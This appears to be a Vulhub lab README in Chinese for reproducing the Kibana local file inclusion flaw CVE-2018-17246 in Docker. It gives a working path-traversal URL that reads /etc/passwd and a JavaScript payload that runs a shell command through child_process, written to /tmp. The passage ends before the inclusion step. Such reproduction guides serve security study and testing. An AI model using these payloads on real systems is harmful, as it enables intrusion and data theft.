



# Kibana 本地文件包含漏洞 CVE-2018-17246

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

Vulhub启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana的默认首页。



## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：



所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们可以将如下代码上传到服务器的`/tmp/vulhub.js`，文件内容为：

```
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

首先进入docker：

```
docker-compose exec kibana bash 
```

在docker内写入文件：

```
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```

